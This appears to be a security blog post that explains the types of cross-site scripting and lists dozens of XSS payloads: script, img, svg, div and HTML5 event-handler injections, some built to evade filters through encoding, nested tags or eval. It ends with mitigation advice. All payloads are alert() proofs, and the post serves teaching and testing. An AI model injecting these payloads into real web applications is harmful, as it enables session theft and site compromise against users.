 ```yaml
---
title: Cross-Site Scripting (XSS) Payloads and Mitigation Strategies
# author: Gauranga
date: 2024-04-21 16:50:00 GMT+5:45
categories: [Writing]
tags: [XSS, Cross-Site Scripting, Security Vulnerability, Web Applications, Injection Attacks, JavaScript, Vulnerability Mitigation]
pin: true
math: true
mermaid: true
image: https://blogdetectify.cdn.triggerfish.cloud/uploads/2015/12/04174531/What-is-Cross-site-Scripting-XSS-and-how-can-you-fix-it_.png
#   path: /commons/devices-mockup.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt: Responsive rendering of Chirpy theme on multiple devices.
---
```


# Payloads for Cross-Site Scripting (XSS) Payloads

## Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker is able to inject malicious scripts (typically written in JavaScript) into web pages viewed by other users. This can happen when user input is not properly validated or sanitized by the application before being displayed to other users.

There are several types of XSS attacks:

1. **Stored XSS:** Also known as persistent XSS, this occurs when the injected script is permanently stored on the target server, such as in a database or a file. Whenever a user visits the affected page, the malicious script is executed.
2. **Reflected XSS:** In this type of attack, the injected script is reflected off the web server, such as in an error message or search result. The attacker typically tricks a victim into clicking on a specially crafted link that contains the malicious payload.
3. **DOM-based XSS:** This occurs when the client-side script modifies the DOM (Document Object Model) in an unsafe way, leading to a XSS vulnerability. Unlike traditional XSS attacks, DOM-based XSS does not involve the server-side code.

XSS attacks can have serious consequences, including:

- Theft of sensitive information such as cookies, session tokens, and login credentials.
- Manipulation of user sessions and actions.
- Defacement of websites.
- Distribution of malware to other users.
- Redirection to malicious websites.
- Compromise of user privacy.

## Vulnerability Details:

### XSS in HTML/Applications:

1. **Basic Payloads:**
    - `<script>alert('XSS')</script>`: Executes a simple JavaScript alert function.
    - `<scr<script>ipt>alert('XSS')</scr<script>ipt>`: Attempts to evade filters by using nested script tags.
    - `"><script>alert('XSS')</script>`: Injects a script tag within an HTML attribute.
    - `"><script>alert(String.fromCharCode(88,83,83))</script>`: Utilizes character encoding to obfuscate the alert message.
    - `<script>\\u0061lert('22')</script>`: Uses Unicode encoding to represent the script tag.
    - `<script>eval('\\x61lert(\\'33\\')')</script>`: Executes the alert using JavaScript's eval function.
    - `<script>eval(8680439..toString(30))(983801..toString(36))</script>`: Dynamically executes an alert by converting integers to strings.
    - `<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">`: Uses HTML entity encoding to inject JavaScript.
2. **Img Payloads:**
    - `<img src=x onerror=alert('XSS');>`: Triggers an alert when the image fails to load.
    - `<img src=x onerror=alert('XSS')//`: Uses a comment to bypass filters.
    - `<img src=x onerror=alert(String.fromCharCode(88,83,83));>`: Uses character encoding for the alert message.
    - `<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>`: Repeats characters to evade detection.
    - `<img src=x:alert(alt) onerror=eval(src) alt=xss>`: Injects JavaScript through the alt attribute.
    - `"><img src=x onerror=alert('XSS');>`: Injects JavaScript within an HTML attribute.
3. **SVG Payloads:**
    - `<svgonload=alert(1)>`: Triggers an alert when the SVG loads.
    - `<svg/onload=alert('XSS')>`: Injects JavaScript within the onload attribute.
    - `<svg onload=alert(1)//`: Utilizes a comment to bypass filters.
    - `<svg/onload=alert(String.fromCharCode(88,83,83))>`: Uses character encoding for the alert message.
    - `<svg id=alert(1) onload=eval(id)>`: Dynamically executes the alert using the id attribute.
    - `"><svg/onload=alert(String.fromCharCode(88,83,83))>`: Injects JavaScript within an HTML attribute.
4. **Div Payloads:**
    - `<div onpointerover="alert(45)">MOVE HERE</div>`: Triggers an alert when the mouse pointer moves over the div element.
    - `<div onpointerdown="alert(45)">MOVE HERE</div>`: Triggers an alert when a pointer device button is pressed over the div.
    - `<div onpointerenter="alert(45)">MOVE HERE</div>`: Triggers an alert when the pointer enters the div element.
    - `<div onpointerleave="alert(45)">MOVE HERE</div>`: Triggers an alert when the pointer leaves the div element.
    - `<div onpointermove="alert(45)">MOVE HERE</div>`: Triggers an alert when the pointer moves within the div element.
    - `<div onpointerout="alert(45)">MOVE HERE</div>`: Triggers an alert when the pointer leaves the div element.
    - `<div onpointerup="alert(45)">MOVE HERE</div>`: Triggers an alert when a pointer device button is released over the div.

### XSS using HTML5 tags:

- **`<body onload=alert(/XSS/.source)>`**: Triggers an alert when the page loads.
- **`<input autofocus onfocus=alert(1)>`**: Triggers an alert when the input field gains focus.
- **`<select autofocus onfocus=alert(1)>`**: Triggers an alert when the select element gains focus.
- **`<textarea autofocus onfocus=alert(1)>`**: Triggers an alert when the textarea element gains focus.
- **`<keygen autofocus onfocus=alert(1)>`**: Triggers an alert when the keygen element gains focus.
- **`<video/poster/onerror=alert(1)>`**: Triggers an alert when the video fails to load.
- **`<video><source onerror="javascript:alert(1)">`**: Injects JavaScript within the source tag's onerror attribute.
- **`<video src=_ onloadstart="alert(1)">`**: Triggers an alert when the video begins to load.
- **`<details/open/ontoggle="alert\`**1`">`: Triggers an alert when the details element is toggled open.
- **`<audio src onloadstart=alert(1)>`**: Triggers an alert when the audio begins to load.
- **`<marquee onstart=alert(1)>`**: Triggers an alert when the marquee element starts scrolling.
- **`<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>`**: Triggers an alert when the mouse pointer is moved over the meter element.
- **`<body ontouchstart=alert(1)>`**: Triggers an alert when a touch event starts.
- **`<body ontouchend=alert(1)>`**: Triggers an alert when a touch event ends.
- **`<body ontouchmove=alert(1)>`**: Triggers an alert when a touch event moves.

## Recommendation:

To mitigate the risk of XSS attacks, the following recommendations are provided:

- Implement strict input validation mechanisms to filter out potentially malicious input.
- Utilize output encoding techniques (e.g., HTML entity encoding, JavaScript escaping) to render user-supplied data safely.
- Implement a Content Security Policy (CSP) to restrict the execution of inline scripts and mitigate XSS risks.
- Conduct regular security assessments, including code reviews and penetration tests, to identify and remediate vulnerabilities.
- Educate developers on secure coding practices to prevent the introduction of XSS vulnerabilities in future development efforts.

The identified XSS vulnerabilities pose a significant threat to the security. By exploiting these vulnerabilities, attackers could execute arbitrary JavaScript code within the context of users' browsers, leading to various security risks, including data theft and unauthorized access. It is imperative that immediate action is taken to address these vulnerabilities and implement the recommended mitigation strategies to safeguard the application against XSS attacks.